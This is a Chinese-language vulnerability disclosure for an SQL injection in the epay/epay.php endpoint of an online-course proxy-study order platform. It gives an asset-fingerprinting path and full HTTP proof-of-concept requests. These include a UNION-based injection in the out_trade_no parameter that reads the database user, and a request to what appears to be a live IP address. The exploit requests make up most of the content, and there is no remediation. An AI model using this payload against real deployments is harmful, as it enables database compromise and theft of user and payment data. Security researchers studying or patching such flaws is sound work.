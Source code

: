 # 网课交单平台epay存在SQL注入漏洞

# 一、漏洞简介
网课交单平台是一款和发卡网对接的网课代学平台，拥有聚合支付，论文编辑等功能，其后台的可用性及可靠性得到了使用者的认可。网课交单平台某接口存在SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 网课交单平台

# 三、资产测绘
```http
"/apisub.php"
```

![1718193605379-22758e9d-9d5a-41a0-ba54-3cb86c6a26c9.png](./img/pSqHXnKzl_2lNnxt/1718193605379-22758e9d-9d5a-41a0-ba54-3cb86c6a26c9-427126.png)

# 四、漏洞复现
```java
POST /epay/epay.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=1

out_trade_no=' UNION ALL SELECT 1,CONCAT(IFNULL(CAST(CURRENT_USER() AS CHAR),0x20)),3,4,5,6,7,8,9,10,11,12,13-- -
```

![1718193755161-d81335ad-f1dc-4afd-a512-cc764cbb611a.png](./img/pSqHXnKzl_2lNnxt/1718193755161-d81335ad-f1dc-4afd-a512-cc764cbb611a-504810.png)

```java
POST /epay/epay.php HTTP/1.1
Host: 101.33.219.180:89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 157
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=1

out_trade_no=1
```

![1718193897061-a7e073aa-236a-42d0-a753-5aae192ddcc1.png](./img/pSqHXnKzl_2lNnxt/1718193897061-a7e073aa-236a-42d0-a753-5aae192ddcc1-738243.png)



> 更新: 2024-06-17 09:30:05  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/na3widtrnccyuruh>